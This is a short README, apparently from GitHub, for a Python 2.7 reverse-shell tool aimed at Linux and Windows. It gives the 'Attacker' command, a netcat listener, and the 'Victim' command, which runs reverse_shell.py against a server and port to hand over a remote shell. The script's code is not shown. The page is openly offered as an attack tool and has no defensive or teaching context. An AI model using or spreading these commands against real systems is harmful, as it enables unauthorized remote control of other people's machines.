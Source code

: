 # reverse shell friendly
simple tool to reverse shell using python for Linux & Windows

by : mathio.dz

## Prerequisites

Python 2.7

### Usage:
### Attacker

```
mathio@dz: nc -vlp port
```

## Victim
```
mathio@dz: python2 reverse_shell.py server port linux/windows
```

